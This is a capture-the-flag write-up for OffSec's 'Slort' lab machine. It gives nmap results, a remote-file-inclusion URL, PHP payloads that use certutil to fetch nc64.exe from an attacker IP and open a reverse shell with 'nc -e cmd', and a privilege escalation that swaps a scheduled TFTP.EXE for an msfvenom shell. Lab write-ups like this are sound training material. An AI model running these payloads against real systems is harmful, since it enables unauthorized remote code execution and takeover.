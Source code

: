 # Slort

## Info

Slort is an intermediate windows machine from offsec proving grounds.

## Nmap

All ports tcp scan.

```
21/tcp    open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3306/tcp  open  mysql?        syn-ack ttl 125
4443/tcp  open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8080/tcp  open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## HTTP 4443

The following url has a rfi vulnerability and executes php code.

```
http://192.168.209.53:4443/site/index.php?page=http://192.168.45.180/test.php
```

Uploading nc onto the machine.

```
<?php

system("certutil -urlcache -split -f http://192.168.45.180/nc64.exe C:\\xampp\\htdocs\\site\\nc64.exe");

?>
```

Executing nc.

```
<?php

system("nc64.exe 192.168.45.180 8080 -e cmd");

?>
```

## Root

There is a task running in C:\backup.

Create an executable with msfvenom called TFTP.EXE, remove the old one and upload the new reverse shell.

Wait a couple of minutes until the shell arrives.
